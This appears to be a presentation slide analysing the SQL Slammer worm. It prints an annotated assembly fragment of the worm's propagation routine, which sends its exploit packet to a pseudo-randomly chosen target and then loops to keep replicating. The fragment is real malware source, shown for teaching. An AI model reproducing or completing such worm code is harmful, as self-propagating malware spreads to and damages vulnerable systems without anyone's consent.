

# Slammer Worm Insides
push 10h 		; [EBP-58h] sizeof(struct sockaddr_in)
lea eax, [ebp-50h]
push eax 		; [EBP-5Ch] eax=Target address
xor ecx, ecx
push ecx 		; [EBP-60h] ecx=Send flags
xor cx, 178h
push ecx 		; [EBP-64h] ecx=Packet length
lea eax, [ebp+3]
push eax 		; [EBP-68h] eax=Exploit address
mov eax, [ebp-54h]
push eax 		; [EBP-6Ch] eax=socket descriptor
call esi 		; Procedure exit: ESP=EBP-54h
The worm then continues replication by jumping back into the pseudo-random number generator:
jmp short PRND